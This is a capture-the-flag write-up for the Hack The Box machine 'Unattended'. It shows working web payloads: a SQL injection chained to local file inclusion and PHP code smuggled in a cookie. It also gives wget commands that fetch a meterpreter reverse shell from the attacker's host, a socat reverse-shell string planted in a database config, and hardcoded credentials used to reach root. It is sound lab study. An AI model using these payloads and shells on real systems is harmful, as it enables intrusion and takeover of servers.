

# Hack The Box - Unattended
## Table of Contents
- [Hack The Box - Unattended](#hack-the-box---unattended)
	- [Table of Contents](#table-of-contents)
	- [Overview](#overview)
		- [Tools](#tools)
	- [Initial Enumeration](#initial-enumeration)
		- [Nmap](#nmap)
		- [Web](#web)
	- [Exploitation](#exploitation)
		- [Nginx off-by-slash path normalization](#nginx-off-by-slash-path-normalization)
		- [SQL Injection in index.php](#sql-injection-in-indexphp)
		- [SQL Injection to Local File Inclusion](#sql-injection-to-local-file-inclusion)
		- [Local File Inclusion to Remote Code Execution](#local-file-inclusion-to-remote-code-execution)
		- [LFI to Shell](#lfi-to-shell)
		- [Privilege Escalation to User](#privilege-escalation-to-user)
		- [User to Root Via Initrd Hardcoded Credentials](#user-to-root-via-initrd-hardcoded-credentials)
- [Conclusion](#conclusion)
## Overview 
Unattended is a linux box rated as medium difficulty that requires many advanced techniques to compromise. Our initial major foothold is a SQL injection vulnerability, that leads to a local file inclusion, escalating to remote code execution. Once on the box we discover credentials in an initrd image, which leads to obtaining root privileges.

### Tools
- [nmap](https://nmap.org/)
- [gobuster](https://github.com/OJ/gobuster)
- [wappalyzer](https://www.wappalyzer.com/)
- [sqlmap](https://sqlmap.org/)
- [burpsuite](https://portswigger.net/burp)
- [Metasploit](https://www.metasploit.com/)
- [socat](https://linux.die.net/man/1/socat)

## Initial Enumeration 
### Nmap
We start our enumeration with an nmap scan against the target machine


Ports 80 and 443 are the only ports open. Take note of the ssl cert common name `www.nestedflanders.htb` this is a potential virtual host name that needs to be enumerated. Adding this entry to our `/etc/hosts` file will aid in testing. 

### Web
Browsing to both ports by IP yields no results, but `https://www.nestedflanders.htb` yields an Apache2 Debian landing page; we will continue to use this vhost for future enumeration. An interesting note is that Wappalyzer claims the host is running `Nginx 1.10.3` despite the Apache2 landing page. 


Manually browsing the site yields no more results. We will use `gobuster` to brute force directories against `www.nestedflanders.htb`.



Gobuster discovers the existence of `/index.php` and `/dev`. Browsing to `/index.php` reveals a custom web page for "Nested Flanders' Portfolio". Navigating to links on this page takes us to different`index.php?id=ID` pages, the `ID` parameter is worth investigating shortly. 


The `/dev/` directory has a plaintext message "dev site has been moved to his own server". 

## Exploitation

### Nginx off-by-slash path normalization 
Following our note earlier about the `Nginx` wappalyzer result, it is worth playing with how paths are normalized. The [Nginx off-by-slash](https://blog.detectify.com/2020/11/10/common-nginx-misconfigurations/) bug was found to be applicable here. Browsing to `https://www.nestedflanders.htb/dev../` results in a `403 forbidden`, going further up the directory tree to `https://www.nestedflanders.htb/dev../html/index.php` allows us to download the source of `index.php`. 

### SQL Injection in index.php

In the source of `index.php` we find many interesting things. Immediately we find database credentials that will be useful later: 
```
$servername = "localhost";
$username = "nestedflanders";
$password = "1036913cf7d38d4ea4f79b050f171e9fbf3f5e";
$db = "neddy";
$conn = new mysqli($servername, $username, $password, $db);
```

We also find this SQL injection:
```
$valid_ids = array (25,465,587);
	if ( (array_key_exists('id', $_GET)) && (intval($_GET['id']) == $_GET['id']) && (in_array(intval($_GET['id']),$valid_ids)) ) {
			$sql = "SELECT name FROM idname where id = '".$_GET['id']."'";
	} else {
		$sql = "SELECT name FROM idname where id = '25'";
	}
```
We see three different `valid_ids`, each corresponding to the `main`, `about`, and `contact` pages under `index.php`. If our provided ID is outside of this set, we are returned to the default `main` page. 

We can test this SQLi by injecting `25' or '1' = '1` as our page ID:


Injecting `25 or '1' = '2` yields a slightly different response: 


This SQLi can be automated with SQL map to extract further data, but it defaults to a timing based attack and is slow. Further enumeration revealed that database contents were not useful at this time. 

### SQL Injection to Local File Inclusion 

Going back to the source code of `index.php`, we observe how a page name is returned from a given id in `getTplFromID`:
```
function getTplFromID($conn) {
	global $debug;
	$valid_ids = array (25,465,587);
	if ( (array_key_exists('id', $_GET)) && (intval($_GET['id']) == $_GET['id']) && (in_array(intval($_GET['id']),$valid_ids)) ) {
			$sql = "SELECT name FROM idname where id = '".$_GET['id']."'";
	} else {
		$sql = "SELECT name FROM idname where id = '25'";
	}
	if ($debug) { echo "sqltpl: $sql<br>\n"; } 
	
	$result = $conn->query($sql);
	if ($result->num_rows > 0) {
	while($row = $result->fetch_assoc()) {
		$ret = $row['name'];
	}
	} else {
		$ret = 'main';
	}
	if ($debug) { echo "rettpl: $ret<br>\n"; }
	return $ret;
}

```
`getPathFromTpl` is then called with the previously returned name aka `tpl`:
```
function getPathFromTpl($conn,$tpl) {
	global $debug;
	$sql = "SELECT path from filepath where name = '".$tpl."'";
	if ($debug) { echo "sqlpath: $sql<br>\n"; }
	$result = $conn->query($sql);
	if ($result->num_rows > 0) {
		while($row = $result->fetch_assoc()) {
			$ret = $row['path'];
		}
	}
	if ($debug) { echo "retpath: $ret<br>\n"; }
	return $ret;
}
```
The `$inc` return value from `getPathFromTpl` is then included within `index.php`, meaning we have a local file inclusion bug:
```
<?php
include("$inc");
?>
```
After some time fuzzing with payloads, the following was found to yield results `' UNION SELECT "main' UNION SELECT '/etc/passwd';-- ";--`


### Local File Inclusion to Remote Code Execution

Since this LFI is exploited in the context of an `include()` call, we need a way to get our own php code into a system file. Our session file at `var/lib/php/session/sess_[SESSION COOKIE]` can be used to perform this. The session cookie value can be found in any HTTP request:
```
GET /index.php?id=25%27+UNION+SELECT+%22main%27+UNION+SELECT+%27/etc/passwd%27%3b--+%22%3b--+ HTTP/1.1
Host: www.nestedflanders.htb
Cookie: PHPSESSID=0eeec3brj9f8bs109u6ssli5p3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```
Since any cookies we add also get added to this session cookie, we can create our own new cookie containing php code, and then use the LFI to point to our session file to obtain remote code execution:

```
GET /index.php?id=25%27+UNION+SELECT+%22main%27+UNION+SELECT+%27/var/lib/php/sessions/sess_0eeec3brj9f8bs109u6ssli5p3%27%3b--+%22%3b--+ HTTP/1.1
Host: www.nestedflanders.htb
Cookie: PHPSESSID=0eeec3brj9f8bs109u6ssli5p3; EXEC=<?php passthru('whoami')?>;
...

```
Response
```
HTTP/1.1 200 OK
Server: nginx/1.10.3
Date: Mon, 27 Mar 2023 21:52:42 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 957
Connection: close
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
X-Upstream: 127.0.0.1:8080
...


<div class="container">
<div class="row">
<!-- <div align="center"> -->
PHPSESSID|s:26:"0eeec3brj9f8bs109u6ssli5p3";EXEC|s:27:"=www-data
...
```
By creating an `EXEC` cookie and smuggling `<?php passthru('whoami')?>;` in it, we are able to see we are running arbitrary commands as `www-data`.

### LFI to Shell
With RCE established, we will create PHP meterpreter shell and execute it on the target.

Create a meterpreter shell
```
$ msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.16.12 LPORT=80 > shell.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 1110 bytes
```
Start Metasploit
```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 80
LPORT => 80
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.16.12:80 
```

Our php shell will be hosted on a simple HTTP server, and the RCE will trigger a wget call to fetch it and then execute it. 

Host the server
```
$ sudo python -m http.server 443                                                 
Serving HTTP on 0.0.0.0 port 443 (http://0.0.0.0:443/) ...
```

Call wget to fetch the php shell
```
GET /index.php?id=25%27+UNION+SELECT+%22main%27+UNION+SELECT+%27/var/lib/php/sessions/sess_0eeec3brj9f8bs109u6ssli5p3%27%3b--+%22%3b--+ HTTP/1.1
Host: www.nestedflanders.htb
Cookie: PHPSESSID=0eeec3brj9f8bs109u6ssli5p3; EXEC=<?php passthru('cd /tmp && wget http://10.10.16.12:443/shell.php')?>;
...
```

Call php to execute the shell
```
GET /index.php?id=25%27+UNION+SELECT+%22main%27+UNION+SELECT+%27/var/lib/php/sessions/sess_0eeec3brj9f8bs109u6ssli5p3%27%3b--+%22%3b--+ HTTP/1.1
Host: www.nestedflanders.htb
Cookie: PHPSESSID=0eeec3brj9f8bs109u6ssli5p3; EXEC=<?php passthru('cd /tmp && php shell.php')?>;
...
```

After a few tries, we now how a meterpreter shell as `www-data`


### Privilege Escalation to User

With our `www-data` shell, we find that there is only one other user on the box: `guly`. Permissions are locked down and there is not much that can be done here. 

After some time enumerating and meeting dead ends, recall the database credentials discovered earlier. Use these and `mysql` to connect to the local database to enumerate data that was to slow to enumerate previously. 
```
www-data@unattended:/tmp$ mysql -h localhost -u nestedflanders -p
mysql -h localhost -u nestedflanders -p
Enter password: 1036913cf7d38d4ea4f79b050f171e9fbf3f5e

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 33
Server version: 10.1.37-MariaDB-0+deb9u1 Debian 9.6

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```
```
MariaDB [(none)]> use neddy;
use neddy;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [neddy]> show tables;
show tables;
+-----------------+
| Tables_in_neddy |
+-----------------+
| config          |
| customers       |
| employees       |
| filepath        |
| idname          |
| offices         |
| orderdetails    |
| orders          |
| payments        |
| productlines    |
| products        |
+-----------------+
11 rows in set (0.00 sec)

MariaDB [neddy]>
```
After enumerating all of these, `config` is the most interesting.
```
MariaDB [neddy]> select * from config;
select * from config;
+-----+-------------------------+--------------------------------------------------------------------------+
| id  | option_name             | option_value                                                             |
+-----+-------------------------+--------------------------------------------------------------------------+
...
|  73 | ftp_pass                | 0e1aff658d8614fd0eac6705bb69fb684f6790299e4cf01e1b90b1a287a94ffcde451466 |
|  74 | ftp_root                | /                                                                        |
|  75 | ftp_enable              | 1                                                                        |
|  76 | offset                  | UTC                                                                      |
|  77 | mailonline              | 1                                                                        |
|  78 | mailer                  | mail                                                                     |
|  79 | mailfrom                | nested@nestedflanders.htb                                                |
|  80 | fromname                | Neddy                                                                    |
|  81 | sendmail                | /usr/sbin/sendmail                                                       |
|  82 | smtpauth                | 0                                                                        |
|  83 | smtpuser                |                                                                          |
|  84 | smtppass                |                                                                          |
|  85 | smtppass                |                                                                          |
|  86 | checkrelease            | /home/guly/checkbase.pl;/home/guly/checkplugins.pl;                      |
|  87 | smtphost                | localhost
...
```
`checkrelease` most of all seems like the most interesting. Let's assume that this script is executed periodically as a check. If we set this to a reverse shell, we may get control of the user running it. 

After some attempts to use our meterpreter shell from earlier, it appears some controls are blocking it. Setting the `checkrelease` values to `socat` instead does the trick. 

Run a listener on our attacking machine
```
# socat file:`tty`,raw,echo=0 tcp-listen:443,reuseaddr
```

Update `checkrelease` to our payload
```
MariaDB [neddy]> update config set option_value = "socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.16.12:443" where id = 86;
err,setsid,sigint,sane tcp:10.10.16.12:443" where id = 86;y,std 
Query OK, 1 row affected (0.00 sec)
Rows matched: 1  Changed: 1  Warnings: 0
```

Immediately we get a shell from the user `guly`. 


We immediately want to establish a better shell, looking for our php shell from earlier we see it is not visible to `guly`
```
guly@unattended:~$ cd /tmp
guly@unattended:/tmp$ ls
systemd-private-fe15709562cd4f2599bdbc781b6e9896-apache2.service-qg1s74
systemd-private-fe15709562cd4f2599bdbc781b6e9896-apache2.service-w6yUCn
systemd-private-fe15709562cd4f2599bdbc781b6e9896-systemd-timesyncd.service-7zDdPB
systemd-private-fe15709562cd4f2599bdbc781b6e9896-systemd-timesyncd.service-A02fji
vmware-root
```

We can easily fetch it and run it again
```
uly@unattended:/tmp$ wget http://10.10.16.12:443/shell.php
--2023-03-27 19:19:03--  http://10.10.16.12:443/shell.php
Connecting to 10.10.16.12:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1110 (1.1K) [application/octet-stream]
Saving to: ‘shell.php’

shell.php           100%[===================>]   1.08K  --.-KB/s    in 0s      

2023-03-27 19:19:03 (89.0 MB/s) - ‘shell.php’ saved [1110/1110]
```
```
guly@unattended:/tmp$ php shell.php
```

Setting up a new meterpreter session we immediately see our new session
```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/handler) > set LPORT 80
LPORT => 80
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.16.12:80 
[*] Sending stage (39927 bytes) to 10.10.10.126
[*] Meterpreter session 1 opened (10.10.16.12:80 -> 10.10.10.126:59992) at 2023-03-27 16:21:29 -0700

meterpreter > 
```

### User to Root Via Initrd Hardcoded Credentials 

With our `guly` user session, we need to begin enumerating methods for local privilege escalation. Our user is part of the `grub` group, which is of interest. Searching for files that are part of this group
```
guly@unattended:/tmp$ find / -group grub 2>/dev/null
find / -group grub 2>/dev/null
/boot/initrd.img-4.9.0-8-amd64
```
This initrd file is part of how a Linux system boots. It's known as the initial RAM disk, and executes initial executables needed to mount the root filesystem. Unzipping this file will give us more details.

```
guly@unattended:/tmp$ mkdir initrd
mkdir initrd
guly@unattended:/tmp$ cp /boot/initrd.img-4.9.0-8-amd64 initrd
cp /boot/initrd.img-4.9.0-8-amd64 initrd
guly@unattended:/tmp$ cd initrd
cd initrd
guly@unattended:/tmp/initrd$ ls     
ls
initrd.img-4.9.0-8-amd64
guly@unattended:/tmp/initrd$ mv initrd.img-4.9.0-8-amd64 initrd.img-4.9.0-8-amd64.gz
4.gznitrd.img-4.9.0-8-amd64 initrd.img-4.9.0-8-amd64
guly@unattended:/tmp/initrd$ gzip -d initrd.img-4.9.0-8-amd64
gzip -d initrd.img-4.9.0-8-amd64
guly@unattended:/tmp/initrd$ ls
ls
initrd.img-4.9.0-8-amd64
guly@unattended:/tmp/initrd$
```

This new file is a `cpio` archive and will require further extraction, this yields a lot of new files.

```
guly@unattended:/tmp/initrd$ file initrd.img-4.9.0-8-amd64
file initrd.img-4.9.0-8-amd64
initrd.img-4.9.0-8-amd64: ASCII cpio archive (SVR4 with no CRC)
guly@unattended:/tmp/initrd$ cpio -idvm < initrd.img-4.9.0-8-amd64     
cpio -idvm < initrd.img-4.9.0-8-amd64
.
boot
boot/guid
lib64
lib64/ld-linux-x86-64.so.2
init
scripts
scripts/nfs
scripts/local-block
scripts/local-block/ORDER
scripts/local-block/cryptroot
scripts/init-top
scripts/init-top/ORDER
scripts/init-top/udev
scripts/init-top/all_generic_ide
scripts/init-top/keymap
scripts/init-top/blacklist
scripts/functions
scripts/init-bottom
scripts/init-bottom/ORDER
...
```

Searching for references to `guly` leads us to `./scriptws/local-top/cryptroot`
```
guly@unattended:/tmp/initrd$ find . -type f -exec grep -iH guly {} \;
find . -type f -exec grep -iH guly {} \;
./scripts/local-top/cryptroot:      # guly: we have to deal with lukfs password sync when root changes her one
Binary file ./initrd.img-4.9.0-8-amd64 matches
```

Examining the `cryptroot` script, we find the following code
```
     # guly: we have to deal with lukfs password sync when root changes her one
      if ! crypttarget="$crypttarget" cryptsource="$cryptsource" \
        /sbin/uinitrd c0m3s3f0ss34nt4n1 | $cryptopen ; then
                                message "cryptsetup: cryptsetup failed, bad password or options?"
                                sleep 3
                                continue
                        fi
                fi
```

This generates root passwords with `/sbin/uinitrd` and pipes them into `$cryptopen`. Running `/sbin/uinitrd` results in a permission error, but within our extracted initrd image we have our own copy of `uinitrd` without restrictions. 

```
guly@unattended:/tmp/initrd$ /sbin/uinitrd c0m3s3f0ss34nt4n1
/sbin/uinitrd c0m3s3f0ss34nt4n1
bash: /sbin/uinitrd: Permission denied

guly@unattended:/tmp/initrd$ find . -type f -name uinitrd
find . -type f -name uinitrd
./sbin/uinitrd

```

We will move that file to `/home/guly` and execute it with the hardcoded credentials to obtain a root password.
```
guly@unattended:~$ cd /tmp
cd /tmp
guly@unattended:/tmp$ cd /home/guly
cd /home/guly
guly@unattended:~$ cp /tmp/initrd/sbin/uinitrd .
cp /tmp/initrd/sbin/uinitrd .
guly@unattended:~$ ./uinitrd c0m3s3f0ss34nt4n1
./uinitrd c0m3s3f0ss34nt4n1
132f93ab100671dcb263acaf5dc95d8260e8b7c6guly@unattended:~$ su root 
su root 
Password: 132f93ab100671dcb263acaf5dc95d8260e8b7c6
```

With that, we have root!


# Conclusion
This box served much more of a challenge than the "medium" difficulty rating. From the 2nd order SQL injection to LFI chain, to obscure script references in a SQL database, and finally hardcoded credentials in an initrd image. This box presents many learning opportunities for targeting a semi-realistic and highly custom environment. 

